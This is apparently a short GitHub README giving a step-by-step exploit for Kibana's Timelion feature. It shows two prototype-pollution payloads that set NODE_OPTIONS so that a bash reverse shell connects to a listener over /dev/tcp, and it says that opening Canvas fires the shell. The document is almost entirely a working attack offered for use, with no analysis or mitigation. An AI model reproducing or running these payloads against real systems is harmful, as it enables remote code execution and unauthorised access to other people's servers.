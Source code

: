 # Quickread

**To exploit and get reverse shell, follow these steps:**

1. Copy and paste either of these 2 codes in Timelion:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
	
2. Open Canvas. This will give you a reverse shell.

